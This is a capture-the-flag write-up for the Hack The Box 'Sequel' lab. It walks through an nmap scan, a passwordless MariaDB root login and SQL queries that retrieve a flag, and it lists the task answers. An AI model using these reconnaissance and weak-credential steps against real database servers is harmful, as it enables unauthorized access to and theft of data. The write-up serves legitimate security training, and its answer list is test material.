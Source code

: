 # Sequel | Very Easy
Category/Tags: Vulnerability Assessment, Databases, MySQL, SQL, Reconnaissance, and Weak Credentials

## Description:
This is the second box in Starting Point Tier 1 Hack The Box presents aspriring cybersecurity professionals with. In this box, we are asked to .<br>

## Solution:
### **Task 1**:
During our scan, which port do we find serving MySQL?<br>
Run:
`nmap -v -sT -sV -A <IP address of machine>`<br>
>-v = verbose<br>
>-sT = TCP scan<br>
>-sV = service version number<br>
>-A = Operating System version<br>

Answer: `3306`

### **Task 2**:
What community-developed MySQL version is the target running?<br>
Answer: `MariaDB`

### **Task 3**:
When using the MySQL command line client, what switch do we need to use in order to specify a login username?<br>
Run:
`mysql -help` to view the flags.<br>

Answer: `-u`

### **Task 4**:
Which username allows us to log into this MariaDB instance without providing a password?<br>
Answer: `root`

### **Task 5**:
In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?<br>
Answer: `*`

### **Task 6**:
In SQL, what symbol do we need to end each query with?<br>
Answer: `;`

### **Task 6**:
There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?<br>
Run:
`mysql -u root -h <IP address of machine>`<br>

Run:
`SHOW DATABASES;`<br>

Run:
`USE htb;`<br>

Answer: `htb`

### **Flag**:
Run:
`SHOW tables;` to list all tables in the htb databases. We are searching for the flag.<br>

Run:
`SELECT * FROM USERS;` to view all entries in the USERS tables in the htb database.<br>

Run:
`SELECT * FROM CONFIG;` to view all entries in the CONFIG tables in the htb database.<br>
The flag is inside the CONFIG table!
